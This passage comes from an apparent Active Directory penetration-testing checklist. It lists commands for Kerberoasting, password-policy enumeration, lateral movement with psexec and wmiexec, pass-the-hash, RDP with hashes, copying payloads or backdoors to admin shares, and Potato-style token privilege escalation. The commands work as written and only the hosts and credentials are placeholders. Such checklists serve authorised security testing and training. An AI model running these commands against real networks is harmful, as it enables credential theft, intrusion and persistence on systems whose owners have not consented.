 - [ ] Find domain accounts with SPNs (Kerberoasting targets)
  ```
  GetUserSPNs.py domain.local/user:password -dc-ip 192.168.1.100 -request
  ```
  - Service accounts often have weak passwords and elevated privileges

- [ ] Check domain password policy
  ```
  crackmapexec smb 192.168.1.100 -u user -p password --pass-pol
  ```
  - Useful for tuning password attacks to avoid lockouts

## 📌 5. Lateral Movement

### Moving to Other Systems
- [ ] Use PsExec-like tools for remote execution
  ```
  psexec.py domain/user:password@192.168.1.50
  wmiexec.py domain/user:password@192.168.1.50
  ```

- [ ] Use Pass-the-Hash if you have NTLM hashes
  ```
  wmiexec.py -hashes LM:NTLM domain/user@192.168.1.50
  crackmapexec smb 192.168.1.50 -u user -H NTLM_HASH
  ```

- [ ] Access RDP on remote systems
  ```
  xfreerdp /u:user /p:password /v:192.168.1.50
  ```
  - For restricted admin mode (with hash): `/pth:HASH /v:target /restricted-admin`

- [ ] Upload files to compromised shares
  ```
  copy payload.exe \\192.168.1.50\C$\Temp\
  ```
  - Use to deploy tools or backdoors to accessible systems

## 📌 6. Privilege Escalation

### Local Privilege Escalation
- [ ] Check for exploitable privileges
  ```
  whoami /priv
  ```
  - Look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege

- [ ] Use Potato attacks for token impersonation
  ```
  # Based on Windows version:
  JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\temp\out.txt"
  ```

- [ ] Check for unquoted service paths or weak service permissions
  ```
  wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
  ```
